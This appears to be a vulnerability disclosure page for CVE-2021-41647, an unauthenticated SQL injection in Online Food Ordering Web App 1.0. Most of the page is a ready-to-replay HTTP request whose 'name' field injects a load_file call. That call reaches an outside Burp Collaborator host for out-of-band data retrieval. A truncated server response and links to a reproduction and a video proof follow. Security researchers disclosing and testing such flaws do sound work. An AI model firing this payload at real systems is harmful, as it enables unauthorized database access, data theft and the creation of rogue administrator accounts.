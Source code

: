 ## [CVE-2021-41647](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41647)
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41647/docs/Screenshot%202021-10-06%20110714.png)

## Description:
An un-authenticated error-based and time-based blind SQL injection vulnerability exists in Kaushik Jadhav Online Food Ordering Web App 1.0. An attacker can exploit the vulnerable "username" parameter in login.php and retrieve sensitive database information, as well as add an administrative user.

## SQL Request:

```sql
POST /Online-Food-Ordering-Web-App-master/account/routers/register-router.php HTTP/1.1
Host: 192.168.1.180
Origin: http://192.168.1.180
Cookie: PHPSESSID=l9r6fsvj0k8ebeb4kn6qb4acee
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.180/Online-Food-Ordering-Web-App-master/account/register.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 68

username=eRmmfIOD&name=THWdzbPo'%2b(select%20load_file('%5c%5c%5c%5c6z6ghxyoj1qsw3gtl0e0hf0sljrcf3ar1upmcd02.burpcollaborator.net%5c%5cjuf'))%2b'&password=b5R%21c5j%21G5&phone=476835
```
## SQL Response:

```sql
HTTP/1.1 200 OK
Date: Wed, 06 Oct 2021 07:10:35 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.22
X-Powered-By: PHP/7.4.22
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 3775
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">

<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1.0,
...[SNIP]...
```
## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-41647)

## Proof:
[href](https://streamable.com/6od1m2)

